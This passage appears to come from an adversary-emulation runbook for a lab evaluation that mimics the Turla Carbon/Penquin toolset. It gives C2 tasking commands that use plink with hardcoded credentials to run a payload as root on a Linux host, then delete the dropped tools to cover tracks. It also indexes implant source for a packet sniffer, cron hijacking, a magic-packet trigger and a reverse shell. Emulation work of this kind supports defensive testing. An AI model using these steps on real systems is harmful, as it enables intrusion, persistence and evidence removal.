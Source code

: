 * Wait 1 minute and then task the implant to execute Penquin (Penquin takes ~8 seconds to execute). 
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 8, "cmd": "(echo unzip /tmp/tmp514f524f -d /tmp & echo sudo mv /tmp/hsperfdata /root/hsperfdata & echo sudo /root/hsperfdata & echo exit) | C:\\Windows\\System32\\plink.exe -ssh -l adalwolfa -pw Password2! 10.20.10.23"}'
```

* Ensure no commands returned errors in the plink output:
  * > ```
    > unzip /tmp/tmp514f524f -d /tmp 
    > 
    > sudo mv /tmp/hsperfdata /root/hsperfdata 
    > 
    > sudo /root/hsperfdata 
    > 
    > exit 
    > 
    > adalwolfa@skt.local@kagarov:~$ unzip /tmp/tmp514f524f -d /tmp 
    > Archive:  /tmp/tmp514f524f
    >   inflating: /tmp/hsperfdata         
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ sudo mv /tmp/hsperfdata /root/hsperfdata 
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ sudo /root/hsperfdata 
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ exit 
    > logout
    > ```

* Wait 1 minute and then task the implant to clean up downloaded files
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 9, "cmd": "del /Q C:\\Windows\\Temp\\tmp504e.tmp C:\\Windows\\System32\\pscp.exe C:\\Windows\\System32\\plink.exe"}'
```


### :moyai: Source Code

* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task/payload retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)
* [Penquin](Penquin.) ([Network Sniffer](sniff.c), [Penquin Installer](main.c), & [Obfuscation Algorithm](crypt.h#L60))
  * [Writes the sniffer (Penquin) to disk](main.c#L220)
  * [Moves Penquin to /usr/bin](main.c#L121)
  * [Creates a service file](main.c#L173)
  * [Stops cron service](main.c#L143)
  * [Executes Penquin as cron](main.c#L198)
  * [Real cron starts as child process](sniff.c#L198)
  * [Installs packet sniffer on eth0](sniff.c#L482)
  * [Magic packet filter criteria](sniff.c#L437-L442)
  * [Execute reverse shell](sniff.c#L405)

